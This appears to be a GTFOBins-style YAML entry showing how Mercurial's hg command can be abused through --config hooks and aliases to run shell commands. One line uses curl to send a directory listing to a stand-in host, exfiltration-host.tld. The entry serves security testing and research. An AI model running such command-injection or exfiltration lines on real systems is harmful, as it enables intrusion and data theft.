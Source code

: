 ```yaml
---
description: hg (Mercurial) is a source control management tool.
functions:
  command:
    - code: |
        hg init --config=hooks.pre-init="sh -c 'ls'"
    - code: |
        hg init --config=alias.init="!uname -a"
  file-upload:
    - code: |
        hg init --config=alias.identify=!curl http://exfiltration-host.tld --data “$(ls -alh)”
---
```

